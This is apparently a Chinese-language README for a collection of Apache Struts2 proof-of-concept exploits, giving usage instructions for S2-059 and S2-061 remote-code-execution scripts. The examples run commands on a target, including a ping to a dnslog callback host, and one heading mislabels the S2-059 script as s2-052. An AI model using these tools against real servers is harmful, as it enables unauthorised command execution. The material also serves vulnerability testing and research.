 # 此仓库为strus2历史版本的poc集合
## s2-052_exploit.py 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-059 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。
python环境为pyhon2.7 
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：

```
python s2-059_exploit.py -u <URL> -c <命令>

- `-u` 或 `--url`：指定存在 Apache Struts 漏洞的目标 URL。
- `-c` 或 `--command`：提供要在目标系统上执行的命令。

示例：

python2 s2-059_exploit.py -u http://example.com/orders/3/edit -c "/usr/bin/touch /tmp/aa /tmp/bb"
python2 s2-059_exploit.py -u http://example.com/orders/3/edit -c "ping l9mgao.dnslog.cn"
```
##  s2-061_exploit.py 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-061 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。如远程命令为系统输出命令`id`,`ls /tmp`,`pwd`,可直接回显
python环境为 python3.9
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：
```
python s2-061_exploit.py -p <利用参数> -u <URL> -c <命令> 
- `-u` 或 `--url`：指定目标 URL。
- `-c` 或 `--command`：指定要执行的命令。
- `-p` 或 `--param`：指定 payload 参数。

示例：
python3 s2-061_exploit.py -p id -u http://example.com/ -c "ls /tmp"
python3 s2-061_exploit.py -p id -u http://example.com/ -c "pwd"
python3 s2-061_exploit.py -p id -u http://example.com/ -c "touch /tmp/test"
```
